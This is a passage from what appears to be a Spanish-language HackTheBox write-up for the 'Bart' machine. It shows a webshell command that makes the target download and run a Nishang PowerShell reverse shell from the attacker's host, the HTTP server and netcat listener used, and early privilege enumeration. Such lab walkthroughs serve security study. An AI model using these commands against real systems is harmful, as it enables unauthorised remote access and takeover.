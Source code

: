 ![](/assets/images/htb-bart/bart-log4.png)

Ahora nos copiamos el archivo `Invoke-PowerShellTcp.ps1` a nuestro directorio de trabajo y procedemos a editarlo agregando la siguiente linea hasta el final del archivo `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443`

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Nos compartimos un servidor HTTP con python y ejecutamos lo siguiente para ganar acceso a la máquina `http://internal-01.bart.htb/log/shell.php?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.17/PS.ps1%27)`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.81 - - [04/Oct/2021 23:21:41] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.81] 50342
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log>
```

Ya hemos ingresado a la máquina como el usuario `nt authority\iusr`. Vamos a comprobar si nos encontramos en un proceso de 64 bits.

```bash
[Environment]::Is64BitProcess
True
[Environment]::Is64BitOperatingSystem
True
PS C:\inetpub\wwwroot\internal-01\log>
```

Ahora nos queda escalar privilegios, por lo que pasamos a enumerar un poco la máquina:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\Users>
```

